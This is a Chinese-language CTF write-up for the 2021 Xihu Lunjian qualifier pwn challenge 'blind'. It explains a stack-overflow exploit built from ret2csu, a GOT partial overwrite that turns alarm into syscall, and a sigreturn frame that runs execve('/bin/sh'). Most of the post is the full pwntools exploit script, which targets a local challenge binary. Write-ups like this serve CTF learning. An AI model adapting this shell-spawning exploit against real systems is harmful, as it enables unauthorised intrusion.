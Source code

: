 ```yaml
---
layout: article
pageview: true
key: 2021-12-10-xihulunjian2021-pwn-wp
title: 西湖论剑2021初赛Pwn题WP
author: Ch4rc0al
categories:
  - WriteUps 
tags: 
  - Pwn
  - CTF
---
```




西湖论剑2021初赛Pwn题WP



<!--more-->



## blind

主函数内一个栈溢出，没有开`PIE`，可利用函数只有`alarm`,`sleep`,`read`，结尾`return read(xxx)`，考虑`srop`，我们在`bss`段写下`/bin/sh`字符串，修改`alarm`函数的got表地址后一位为`0x?5`将其改为`syscall`，在栈上布置`Sigreturn frame`，内容为执行`execve('/bin/sh',0,0)`，在read里输入`0xf`个字符调用`signal return`，完成getshell。

代码写的很难看，请见谅

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

p=process('./blind')

debug=1

elf=ELF('./blind')
p_rdi=0x00000000004007c3
p_rsi_r15=0x00000000004007c1
call_rax=0x00000000004006ae
main=0x4006b6
bss=elf.bss()+0x100
pad='\x00'*0x58

def csu(call,rdi,rsi,rdx,ret):
    csu_end=0x4007ba
    csu_front=0x4007a0
    payload=pad+p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx)+p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38+p64(ret)
    return payload

sigframe=SigreturnFrame()
sigframe.rax=constants.SYS_execve
sigframe.rsp=bss+0x100
sigframe.rdi=bss
sigframe.rsi=0
sigframe.rdx=0
sigframe.rip=elf.plt['alarm']

gdb.attach(p,'b read')

pay=csu(elf.got['read'],0,bss,0x8,main).ljust(0x500,'\x00')

p.send(pay)

p.send('/bin/sh\x00')

pay=(csu(elf.got['read'],0,elf.got['alarm'],0x1,0xdeadbeaf)[:-8]+csu(elf.got['read'],0,bss+0x100,0xf,elf.plt['alarm'])[0x58:]+str(sigframe)).ljust(0x500,'\x00')

p.send(pay)

p.send('\x15')

p.send('\x00'*15)

p.interactive()
```

